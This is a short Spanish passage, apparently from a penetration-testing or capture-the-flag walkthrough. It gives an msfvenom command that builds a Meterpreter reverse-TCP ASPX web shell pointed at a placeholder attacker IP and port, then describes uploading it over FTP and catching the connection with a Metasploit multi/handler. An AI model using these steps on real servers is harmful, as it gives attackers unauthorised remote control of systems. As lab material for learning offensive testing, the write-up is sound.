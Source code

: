 En este caso crearemos un archivo malicioso mediante MSFVenom.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP ATACANTE> LPORT=<EL QUE QUERAMOS> -f aspx -o shell.aspx
```

Iniciaremos sesión mediante FTP y subimos el archivo con un `put`, pondremos a la escucha mediante msfconsole:

Abriremos msfconsole y haremos un `use multi/handler`. Indicaremos el LHOST y el LPORT que hubiéramos puesto al crearlo.

En PAYLOAD (windows/meterpreter/reverse_tcp) tendremos que poner el mismo que habíamos puesto al principio cuando se ha creado.